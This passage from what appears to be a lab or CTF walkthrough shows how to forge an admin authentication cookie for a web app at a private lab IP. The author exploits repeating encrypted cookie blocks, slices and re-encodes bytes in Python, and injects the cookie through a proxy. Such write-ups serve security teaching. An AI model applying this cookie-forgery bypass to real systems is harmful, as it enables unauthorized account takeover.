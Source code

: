 ```
[+] Username:                     aaaaaaaa
[+] Unencrypted (ascii) [len=24]: aaaaaaaa??j?  a? ˪ìR? 
[+] Username:                     aaaaaaaab
[+] Unencrypted (ascii) [len=24]: aaaaaaaa??/:D"??P#|??a
```

Now let's compare the trailing 16-bytes of that cookie to the 'unencrypted' cookie we get from a username with just the character ```b```:

```
[*] Running in Brute mode
[+] Username:                     b
[+] Unencrypted (ascii) [len=16]: ??/:D"??P#|??a
```

They are identical! And so we have identified our exploitation mechanism.

# Exploitation

As we don't know the password to the admin account, but we can gain access through cookie modification, it is likely that the authentication scheme doesn't take password into account. Let's generate our ```admin``` cookie payload by generating a cookie with the following value:

```
aaaaaaaaadmin
```

Using our proxy, we intercept this ```Set-Cookie``` value:

```
Set-Cookie: auth=GkzSM2vKHdfgVmQuKXLregdPxmQZ4yvj
```

Beautiful! Now we will need to parse out the ```admin``` cookie from the whole cookie that was generated. Since ```admin``` is the only part of the username in the 8-byte overflow that makes up the first 8-bytes of the trailing 16-bytes, we should be able to parse out the last 16-bytes, re-cookie-ify it, and use that cookie to gain access to the admin account. A little python console work should yield us our b64encoded/urlencoded ```admin``` cookie.

```
>>> auth="GkzSM2vKHdfgVmQuKXLregdPxmQZ4yvj"
>>> import base64
>>> base64.b64decode(auth)
'\x1aL\xd23k\xca\x1d\xd7\xe0Vd.)r\xebz\x07O\xc6d\x19\xe3+\xe3'
>>> '\x1aL\xd23k\xca\x1d\xd7\xe0Vd.)r\xebz\x07O\xc6d\x19\xe3+\xe3'[-16::]
'\xe0Vd.)r\xebz\x07O\xc6d\x19\xe3+\xe3'
>>> base64.b64encode('\xe0Vd.)r\xebz\x07O\xc6d\x19\xe3+\xe3')
'4FZkLily63oHT8ZkGeMr4w=='
>>> urllib.quote_plus('4FZkLily63oHT8ZkGeMr4w==')
'4FZkLily63oHT8ZkGeMr4w%3D%3D'
```

Now let's intercept a new request to ```http://192.168.56.101/index.php``` and change the ```auth``` cookie to our hacked together ```admin``` cookie before forwarding it:

```
Cookie: auth=4FZkLily63oHT8ZkGeMr4w%3D%3D
```
